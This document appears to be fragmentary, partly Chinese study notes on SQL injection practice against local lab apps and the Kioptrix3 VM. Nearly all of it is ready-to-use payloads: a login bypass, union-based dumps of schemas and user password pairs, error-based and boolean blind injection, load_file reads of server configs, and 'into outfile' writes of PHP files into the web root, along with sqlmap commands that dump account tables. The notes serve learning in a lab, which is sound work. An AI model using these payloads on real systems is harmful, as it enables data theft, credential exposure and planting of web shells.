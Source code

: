 pass = '' or '1' = '1';
' or '1' = '1



`http://localhost/wzry/url.php?date=20231012' union`

`SELECT database(),'','','`

`http://localhost/wzry/url.php?date=20231012' union`

`SELECT`

`(select GROUP_CONCAT(c.COLUMN_NAME )from information_schema.COLUMNS c where`

`c.TABLE_SCHEMA='game' and c.TABLE_NAME='user'),'','','`


通过exploit database搜索得知，gallarific的gallery.php页面存在sql注入漏洞
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --dbs
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --tables



sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --search -D gallery -T gallarific_users
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --search -D gallery -T dev_accounts


获得gallery数据库下的表名:sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1 -p id --level 4 --risk 3 -D gallery --tables --batch
获取dev_accounts表的数据：sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1 -p id --level 4 --risk 3 -D gallery -T dev_accounts --dump --batch




`http://localhost/bbs/showmessage.php?id=1 order by 4
`http://localhost/bbs/showmessage.php?id=-1 union select 1,2,3,4`
`http://localhost/bbs/showmessage.php?id=-1 union select 1,database(),version(),4`
`http://localhost/bbs/showmessage.php?id=-1 union select 1,database(),version(),(select group_concat(schema_name) from information_schema.schemata)

`http://localhost/bbs/showmessage.php?id=-1 union select 1,database(),version(),(select group_concat(table_name) from  information_schema.tables where table_schema='jrlt')`


`http://localhost/bbs/showmessage.php?id=-1 union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name='users'and table_schema='jrlt'`


`http://localhost/bbs/showmessage.php?id=-1 union  select 1,2,3,concat(name,':',password) from users limit 0,1`




`http://localhost/bbs/showmessage.php?id=2 and (select 1 from (select count(*),concat(0x5e,(select version() from information_schema.tables limit 0,1) ,0x5e,floor(rand(0)*2))x from information_schema.tables group by x)a)`



0x5e："^"符号的 16 进制,约定俗成，一般给程序使用





`select floor(rand(14)*2) from information_schema.TABLES;`
`select floor(rand(0)*2) from information_schema.TABLES;`
`SELECT extractvalue('<root><username>luojie</username><age>18</age></root>', '//username');`
 
`SELECT updatexml('<root><username>luojie</username><age>18</age></root>', '//username','<name>luojiejie</name>');`


`http://localhost/bbs/showmessage.php?id=1 and extractvalue(1, concat(0x5c, (select version()),0x5c))`


`http://localhost/bbs/showmessage.php?id=1 and updatexml(1,concat(0x5e,(select version()),0x5e),1)`


`http://localhost/bbs/showmessage.php?id=-5%20union%20select%201,2,3,load_file(%27D:\\phpstudy_pro\\Extensions\\Apache2.4.39\\conf\\vhosts\\0localhost_80.conf%27)`


`/bbs/showmessage.php?id=-1 union select 1,2,3,'<?php phpinfo();?>' into outfile "D:\\phpstudy_pro\\WWW\\test001.php"`


布尔注入
`http://localhost/bbs/showmessage.php?id=2 and ascii(substr(database(),1,1))=107`


`http://localhost/bbs/showmessage.php?id=2 and (select count(table_name) from information_schema.tables where table_schema=database())<2



?id=-1 union select 1,2,3,@@datadir
?id=-1 union select 1,2,3,'<?php phpinfo();?>' into outfile “C:\\Users\\86188\\Desktop\\tool\\phpStudy\\PHPTutorial\\WWW\\bbs\\test.php"